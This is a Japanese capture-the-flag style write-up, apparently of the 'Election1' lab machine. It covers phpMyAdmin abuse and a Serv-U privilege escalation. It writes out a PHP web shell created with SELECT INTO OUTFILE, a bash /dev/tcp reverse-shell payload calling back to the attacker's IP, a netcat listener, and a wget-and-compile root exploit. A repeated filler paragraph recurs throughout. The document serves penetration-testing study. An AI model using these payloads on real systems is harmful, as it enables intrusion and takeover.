

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Linux |
| 難易度 | 記録なし |
| 攻撃対象 | Web application and exposed network services |
| 主な侵入経路 | Web RCE (CVE-2016-5734, CVE-2019-12181, cve-2019-12181) |
| 権限昇格経路 | Local enumeration -> misconfiguration abuse -> root |

## 認証情報

認証情報なし。

## 偵察

---
💡 なぜ有効か  
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

## 初期足がかり

---
`http://192.168.200.211/robots.txt`
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
admin
wordpress
user
election
```

`http://192.168.200.211/phpinfo.php`
`PHP Version 7.1.33-14+ubuntu18.04.1+deb.sury.org+1|`
`http://192.168.200.211/phpmyadmin/setup`

*キャプション：このフェーズで取得したスクリーンショット*

`http://192.168.200.211/phpmyadmin/doc/html/user.html`
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
searchsploit phpmyadmin 4.6
```

```bash
✅[2:15][CPU:1][MEM:47][TUN0:192.168.45.178][/home/n0z0]
🐉 > searchsploit phpmyadmin 4.6
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
phpMyAdmin 4.6.2 - (Authenticated) Remote Code Execution                                                                             | php/webapps/40185.py
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```


*キャプション：このフェーズで取得したスクリーンショット*

`http://192.168.200.211/election/admin/`

*キャプション：このフェーズで取得したスクリーンショット*


*キャプション：このフェーズで取得したスクリーンショット*


*キャプション：このフェーズで取得したスクリーンショット*


*キャプション：このフェーズで取得したスクリーンショット*

`SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`

*キャプション：このフェーズで取得したスクリーンショット*

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
curl "http://192.168.200.211/shell.php?cmd=id"
```

```bash
✅[22:39][CPU:6][MEM:58][TUN0:192.168.45.178][...ion1/CVE-2016-5734-docker]
🐉 > curl "http://192.168.200.211/shell.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
curl "http://192.168.200.211/shell.php?cmd=cat%20/home/love/local.txt"
```

```bash
✅[22:52][CPU:2][MEM:58][TUN0:192.168.45.178][...ion1/CVE-2016-5734-docker]
🐉 > curl "http://192.168.200.211/shell.php?cmd=cat%20/home/love/local.txt"
21acda9c7d6fc6b8cb9b4cd70302a9ca
```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
SELECT '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/192.168.45.178/4444 0>&1\'"); ?>' INTO OUTFILE '/var/www/html/rev.php';
```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
rlwrap -cAri nc -lvnp 4444
```

```bash
❌[22:57][CPU:2][MEM:59][TUN0:192.168.45.178][/home/n0z0/tools]
🐉 > rlwrap -cAri nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.178] from (UNKNOWN) [192.168.200.211] 59440
bash: cannot set terminal process group (753): Inappropriate ioctl for device
bash: no job control in this shell
www-data@election:/var/www/html$

```

💡 なぜ有効か  
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
[+] [CVE-2019-12181] Serv-U FTP Server

   Details: https://blog.vastart.dev/2019/06/cve-2019-12181-serv-u-exploit-writeup.html
   Exposure: less probable
   Tags: debian=9
   Download URL: https://raw.githubusercontent.com/guywhataguy/CVE-2019-12181/master/servu-pe-cve-2019-12181.c
   ext-url: https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2019-12181/SUroot
   Comments: Modified version at 'ext-url' uses bash exec technique, rather than compiling with gcc.
```

https://github.com/mavlevin/CVE-2019-12181
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
wget https://raw.githubusercontent.com/guywhataguy/CVE-2019-12181/master/servu-pe-cve-2019-12181.c
```

```bash
✅[23:29][CPU:8][MEM:59][TUN0:192.168.45.178][.../Proving_Ground/Election1]
🐉 > wget https://raw.githubusercontent.com/guywhataguy/CVE-2019-12181/master/servu-pe-cve-2019-12181.c

```

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

```bash
www-data@election:/tmp$ gcc servu-pe-cve-2019-12181.c -o servu-exploit
chmod +x servu-exploit
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

```bash
www-data@election:/tmp$ www-data@election:/tmp$ gcc servu-pe-cve-2019-12181.c -o servu-exploit
www-data@election:/tmp$ chmod +x servu-exploit
./servu-exploit
www-data@election:/tmp$ uid=0(root) gid=0(root) groups=0(root),33(www-data)
opening root shell

```

💡 なぜ有効か  
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- 本番同等の環境でフレームワークのデバッグモードとエラー露出を検証する。
- 特権ユーザーやスケジューラーが実行するスクリプト・バイナリのファイルパーミッションを制限する。
- ワイルドカード展開やスクリプト化可能な特権ツールを避けるため sudo ポリシーを強化する。
- 露出した認証情報と環境ファイルを重要機密として扱う。

### Attack Flow

攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- CVE-2016-5734: https://nvd.nist.gov/vuln/detail/CVE-2016-5734
- CVE-2019-12181: https://nvd.nist.gov/vuln/detail/CVE-2019-12181
- cve-2019-12181: https://nvd.nist.gov/vuln/detail/cve-2019-12181
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- feroxbuster: https://github.com/epi052/feroxbuster
- Nuclei: https://github.com/projectdiscovery/nuclei
- GTFOBins: https://gtfobins.org/
- HackTricks Privilege Escalation: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html
